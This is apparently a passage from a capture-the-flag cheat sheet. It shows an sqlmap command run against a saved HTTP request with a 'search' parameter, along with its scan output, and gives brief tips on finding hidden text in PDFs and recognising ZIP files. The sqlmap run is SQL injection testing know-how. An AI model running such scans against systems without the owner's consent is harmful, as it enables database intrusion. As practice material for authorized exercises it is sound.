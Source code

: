 ```

search=help
```
Now Right click and click on `copy to file` option.
```
> $ sqlmap -r search.req --batch --force-ssl
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.3#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 01:25:16 /2020-04-19/

[01:25:16] [INFO] parsing HTTP request from 'search.req'
[01:25:17] [INFO] testing connection to the target URL
[01:25:17] [INFO] checking if the target is protected by some kind of WAF/IPS
[01:25:17] [INFO] testing if the target URL content is stable
[01:25:18] [INFO] target URL content is stable
[01:25:18] [INFO] testing if POST parameter 'search' is dynamic
[01:25:18] [WARNING] POST parameter 'search' does not appear to be dynamic
[01:25:18] [WARNING] heuristic (basic) test shows that POST parameter 'search' might not be injectable
[01:25:19] [INFO] testing for SQL injection on POST parameter 'search'
[01:25:19] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[01:25:20] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[01:25:21] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[01:25:22] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
```


## File Hacking

### Extract hidden text from PDF Files

If something is hidden on a pdf which we need to find, we can Press `Ctrl + A` to copy everything on the pdf and paste on notepad.
If nothing is found, we can use [Inkspace tool](https://inkscape.org) to paste the pdf and try to ungroup several times to extract any hidden flag.
Else solve using pdf-uncompress tools like `qpdf` to convert compressed data to redeable format.

### Compress File Extraction

If there is `PK` at the start of the file in the magic bytes, its most probably `ZIP` File.

To extract data from recursive zip file.
